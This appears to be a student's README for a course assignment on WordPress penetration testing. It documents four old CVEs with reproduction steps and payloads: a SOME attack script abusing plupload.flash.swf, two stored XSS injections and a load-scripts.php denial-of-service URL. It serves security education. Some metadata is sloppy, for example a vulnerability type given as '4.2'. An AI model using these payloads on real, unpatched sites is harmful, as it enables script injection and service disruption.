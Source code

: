 # CodePathweek7
# Project 7 - WordPress Pentesting

Time spent: 5 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

Exploit 1. CVE-2016-4566 Upload Same Origin Method Execution (SOME)
  - [ ] Summary: 
    - Vulnerability types: Same Origin Method Execution (SOME)
    - Tested in version: 4.2
    - Fixed in version: 4.2.8
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit1.gif
  - [ ] Steps to recreate: 
  
        1. Reply to an existing comment
        
        2. Using Javascript use the following code:
            <button onclick="fire()">Click</button>
            <script>
            function fire() {
             open('javascript:setTimeout("location=\'http://example.com/wp-includes/js/plupload /plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
              setTimeout('location="http://example.com/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
            }
            </script>
            
        3. The following script will use an exploit that will create a malicious button that when clicked will take the user to a fake    website example.com
        
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/37382/)
    
Exploit 2. CVE-2015-3440 Unauthenticated Stored Cross Site-Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross Site-Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit2.gif
  - [ ] Steps to recreate: 
  
        1. Create a new post
        
        2. In the post body, write this code:
            a) It must contain an XSS injection content, followed by at least 64 kilobytes of text
                Example: 
                    <a title='x onmouseover=alert(unescape(/hello%20world/.source))
                    style=position:absolute;left:0;top:0;width:5000px;height:5000px
                    AAAAAAAA.. (for 64 kb)....AAAAAA
                    
        3. Save and reload the site
        
        4. WordPress will truncate the comment allowing the injected content to be posted on the site
            a) A pop up message of "Hello World" will pop up on mouse move
            
  - [ ] Affected source code:
    - [Link 2](https://core.trac.wordpress.org/changeset/32299)
    - [Link 2.1](https://www.exploit-db.com/exploits/36844/)
    - [Link 2.2](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3440)
    
Exploit 3. CVE-2018-6389 Application Denial of Service (DoS)
  - [ ] Summary: 
    - Vulnerability types: 4.2
    - Tested in version: 4.9.4
    - Fixed in version: unpacthed
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit3.gif
  - [ ] Steps to recreate:
  
          1. When the site is loading, you need to paste the following at the end of the URL
              /wp-admin/load-scripts.php?c=1&load=editor,common,user-profile,media-widgets,media-gallery
              
          2. With the script now in the URL, reload the webpage and it tries to find the JavaScript file name (ediotr,common, etc.)
          
          3. The webpage will then find all the information and return it to the users webpage in a single file
        
  - [ ] Affected source code:
    - [Link 3](https://wpvulndb.com/vulnerabilities/9021)
    
Expoint 4: CVE-2017-6817 Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types:  Cross-Site Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit4.gif
  - [ ] Steps to recreate: 
  
        1. Create a new post
        
        2. In the post body, write this code:
            [embed src='https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'][/embed]
            
        3. Save your changes, when you go to the post on the site you will see an embeded link
        
        4. Click the embeded link and a alert window will pop up with the message “1”
        
  - [ ] Affected source code:
    - [Link 4](https://wpvulndb.com/vulnerabilities/8768) 
    
## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2018 Oleksandr Bihary

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
